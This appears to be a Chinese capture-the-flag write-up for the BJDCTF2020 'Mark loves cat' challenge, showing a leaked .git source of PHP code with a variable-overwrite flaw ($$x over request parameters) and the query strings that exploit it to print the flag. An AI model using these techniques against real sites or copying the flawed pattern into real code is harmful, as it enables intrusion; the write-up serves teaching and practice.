 # [BJDCTF2020]Mark loves cat
- 考点：变量覆盖

看起来是个xss：

![](https://img-blog.csdnimg.cn/20210426113249180.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
不是xss

/.git/泄露，下载文件后审计
```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
echo "the flag is: ".$flag;
```

解法：三种都可以解出来

![](https://img-blog.csdnimg.cn/2021042611334345.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
直接get传参数即可 ?yds=flag

![](https://img-blog.csdnimg.cn/20210426113358904.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
或者：?is=flag&flag=flag

![](https://img-blog.csdnimg.cn/20210426113430723.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
